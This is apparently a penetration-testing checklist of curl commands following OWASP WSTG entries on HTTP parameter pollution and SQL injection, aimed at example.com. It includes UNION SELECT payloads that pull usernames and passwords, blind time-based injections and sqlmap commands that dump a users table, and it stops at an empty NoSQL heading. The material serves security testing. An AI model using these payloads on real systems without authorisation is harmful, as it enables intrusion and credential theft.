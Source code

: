 ## WSTG-INPV-04: Testing for HTTP Parameter Pollution

**Objective**: Identify the backend and the parsing method used and assess injection points using HPP.

### Commands

```bash
# Test for basic parameter pollution
curl -s "https://example.com/search?param=value1&param=value2"

# Test for parameter pollution in different contexts
curl -s "https://example.com/search?id=1&id=2"
curl -s -X POST "https://example.com/api/users" -d "id=1&id=2"

# Test for parameter pollution with arrays
curl -s "https://example.com/api/users?id[]=1&id[]=2"

# Test for parameter pollution with JSON
curl -s -X POST "https://example.com/api/users" -H "Content-Type: application/json" -d '{"id": [1, 2]}'

# Test for parameter pollution with different separators
curl -s "https://example.com/search?param=value1;param=value2"
curl -s "https://example.com/search?param=value1%26param=value2"

# Test for parameter pollution in cookies
curl -s -H "Cookie: param=value1; param=value2" https://example.com/
```

## WSTG-INPV-05: Testing for SQL Injection

**Objective**: Identify SQL injection points and assess the severity of the injection and the level of access that can be achieved through it.

### Commands

```bash
# Test for basic SQL injection
curl -s "https://example.com/article?id=1'"
curl -s "https://example.com/article?id=1 OR 1=1"

# Test for SQL injection with UNION attacks
curl -s "https://example.com/article?id=1 UNION SELECT 1,2,3,4"
curl -s "https://example.com/article?id=1 UNION SELECT username,password,3,4 FROM users"

# Test for blind SQL injection (time-based)
curl -s "https://example.com/article?id=1 AND SLEEP(5)"
curl -s "https://example.com/article?id=1; SELECT SLEEP(5) #"

# Test for blind SQL injection (boolean-based)
curl -s "https://example.com/article?id=1 AND 1=1"
curl -s "https://example.com/article?id=1 AND 1=2"

# Test for SQL injection in different parameters
for param in "id" "user" "name" "search" "category"; do
  curl -s "https://example.com/page?$param=1'"
done

# Use SQLmap for automated SQL injection testing
sqlmap -u "https://example.com/article?id=1" --dbs
sqlmap -u "https://example.com/article?id=1" -D database_name -T users --dump

# Test for NoSQL injection
```